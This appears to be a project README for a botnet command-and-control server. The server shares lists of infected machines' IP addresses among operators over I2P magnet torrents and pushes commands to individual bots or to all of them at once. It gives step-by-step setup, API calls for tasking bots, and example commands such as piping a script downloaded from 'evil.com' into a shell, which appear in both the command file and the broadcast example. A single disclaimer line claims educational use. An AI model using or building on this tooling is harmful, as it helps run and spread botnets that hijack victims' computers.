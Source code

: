 

# 📘 C2 Server over I2P with Bot Sharing via Magnet Torrents

---

## 🔧 Overview

This Command-and-Control (C2) server allows operators to:

* Control bots over the public internet.
* Seamlessly share bots with **other C2 servers** through **I2P** torrents (via magnet links).
* Use `i2psnark` to fetch and seed peer `.txt` files containing IPs of bots.
* Store all bot information in `bots.txt` automatically (from all peers).
* Send commands to a specific bot or **broadcast** to all online bots.



This system requires **no registration**, has **no central authority**, and functions as a **decentralized, anonymous C2 federation** over the I2P network.

---

## 🛠️ Prerequisites

### ✅ Operating System

* Debian-based Linux (Ubuntu, Kali, Debian)
* Works on VPS, dedicated, or I2P-enabled hidden nodes

### ✅ Dependencies

* Python 3.8+
* `flask` and `requests` Python libraries
* I2P with **i2psnark** enabled

### ✅ Python Packages

Install dependencies:

```bash
sudo apt update
sudo apt install python3-pip curl -y
pip3 install flask requests
```

---

## 🌐 I2P Setup

1. **Install I2P** (Debian/Ubuntu):

   ```bash
   sudo apt install i2p
   ```

2. **Run I2P Router:**

   ```bash
   i2prouter start
   ```

3. Access I2P router console in your browser:

   ```
   http://127.0.0.1:7657
   ```

4. Go to **i2psnark**:

   ```
   http://127.0.0.1:7657/i2psnark/
   ```

---

## 📁 Project Structure

```
c2/
├── c2_server.py           # Main C2 server
├── magnet_links.txt       # Magnet links to join other C2's shared bots
├── shared_bots/           # Shared files (peer .txt files with bot IPs)
├── bots.txt               # Master list of known bots (local + shared)
└── commands.json          # Commands assigned to each bot
```

---

## 🔌 Setup & Running the Server

1. **Clone or place the files** in your server's working directory.

2. **Add magnet links** from other C2s in `magnet_links.txt`:

   ```
   magnet:?xt=urn:btih:EXAMPLEMAGNET1
   magnet:?xt=urn:btih:EXAMPLEMAGNET2
   ```

3. **Run the server:**

   ```bash
   python3 c2_server.py
   ```

---

## 📡 Features & Functionality

### 📥 `magnet_links.txt`

* This file contains a list of **I2P magnet links** to shared `.torrent` files from other C2s.
* Each torrent contains a `.txt` file with bot IPs.
* On launch, the server adds these to `i2psnark` via its local HTTP API.

---

### 📂 `shared_bots/` folder

* This is where i2psnark downloads `.txt` files from the shared torrents.
* Each file contains IP addresses of bots collected by other C2 servers.
* These are merged into `bots.txt` automatically every 60 seconds.

---

### 📜 `bots.txt`

* A master bot list (deduplicated) combining:

  * Your manually added bots
  * Peer-shared bots from `shared_bots/`

---

### 📦 `commands.json`

* Stores commands for each bot in this format:

  ```json
  {
    "bot1_public_ip": "curl http://evil.com/payload.sh | sh",
    "bot2_public_ip": "echo 'hi'"
  }
  ```

---

## 🧪 Usage Examples

### ➕ Add a command for a specific bot

```bash
curl -X POST http://localhost:8080/sendcmd \
     -H "Content-Type: application/json" \
     -d '{"botid": "154.65.100.201", "cmd": "whoami"}'

curl http://localhost:8080/heartbeat
curl -X POST http://localhost:8080/runall -H "Content-Type: application/json" -d '{"cmd": "ps:Get-Date"}'
curl -X POST http://localhost:8080/sendcmd -H "Content-Type: application/json" -d '{"botid": "MYBOT", "cmd": "dir"}'



```

---

### 📢 Broadcast a command to all bots

```bash
curl -X POST http://localhost:8080/broadcast \
     -H "Content-Type: application/json" \
     -d '{"cmd": "curl http://evil.com/payload.sh | sh"}'
```

---
### 🤖 How bots fetch commands

Each bot should make requests like:

```
GET http://C2_IP:8080/getcmd/123.45.67.89
```

The server will respond with the latest command or an empty string.

---

## 📡 How I2P Sharing Works

1. Your C2 server:

   * Loads magnet links to shared `.torrent` files.
   * Downloads `.txt` files (with IPs of bots) via i2psnark.

2. Other C2s do the same:

   * They join your torrents and see your shared `shared_bots/local.txt`.

3. This builds a **mesh of shared botnets** using `.txt` files as simple syncing mediums.

---

## 🧷 How to Seed Your Own Bot List

1. Inside `shared_bots/`, create a file like `local.txt`:

   ```
   123.45.67.89
   11.22.33.44
   ```

2. Create a `.torrent` for `shared_bots/` folder using `i2psnark`.

3. Copy the generated **magnet link** from i2psnark, and give it to other C2 operators.

They can then add it to their own `magnet_links.txt` and receive your bot list.

---

## 🔐 Security & Anonymity

* Uses **I2P** to avoid public IP leakage between C2 servers.
* No central coordination — purely peer-to-peer.
* No usernames, passwords, or registration — just magnet links.
* Commands are only executed on bots reachable on the **clearnet**.

---

## ❗ Warnings (Ethical Use)

This system is designed **strictly for educational use, authorized testing, or simulations**. Misuse for illegal botnet control is a crime in most jurisdictions.

---

## 🧩 To Do / Optional Features

* Add encryption/signature verification for commands.
* Add an authentication mechanism (e.g., per bot token).
* Add reply/report channel for bots.
* Auto-generate `.torrent` files from CLI.

